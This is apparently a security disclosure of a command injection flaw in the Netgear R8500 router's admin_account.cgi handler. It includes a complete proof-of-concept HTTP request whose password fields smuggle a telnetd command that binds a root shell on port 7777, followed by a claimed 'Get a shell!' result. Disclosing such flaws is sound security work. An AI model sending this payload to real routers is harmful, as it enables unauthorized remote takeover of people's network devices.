





# Netgear Vulnerability

Vendor:Netgear

Product:R8500

Version:1.0.2.160

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability in Netgear router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In the router's `admin_account.cgi ` function, `sysNewPasswd` is directly passed by the attacker, so we can control the `sysNewPasswd` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `acosNvramConfig_set ` to store this input.

<div  align="center"></div>

<div  align="center"></div>

There are many functions that trigger command injection.

<div  align="center"></div>

<div  align="center"></div>


## PoC

We set `sysNewPasswd` as **%24%28telnetd+-l+%2Fbin%2Fsh+-p+7777+-b+0.0.0.0%29** , The meaning of this command is **$(telnetd -l /bin/sh -p 7777 -b 0.0.0.0)**，and the router will excute it,such as:

```http
POST /admin_account.cgi?id=be2f7487a122891ae2790c50d8c713160cb915926f5cdb0667a6f14574443751 HTTP/1.1
Host: www.routerlogin.net
Content-Length: 189
Cache-Control: max-age=0
Origin: http://www.routerlogin.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.routerlogin.net/genie_admin_account.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

sysNewPasswd=%24%28telnetd+-l+%2Fbin%2Fsh+-p+7777+-b+0.0.0.0%29&sysConfirmPasswd=%24%28telnetd+-l+%2Fbin%2Fsh+-p+7777+-b+0.0.0.0%29&question1=5&answer1=jj&question2=6&answer2=jj&next=submit
```


## Result

Get a shell!

<div  align="center"></div>
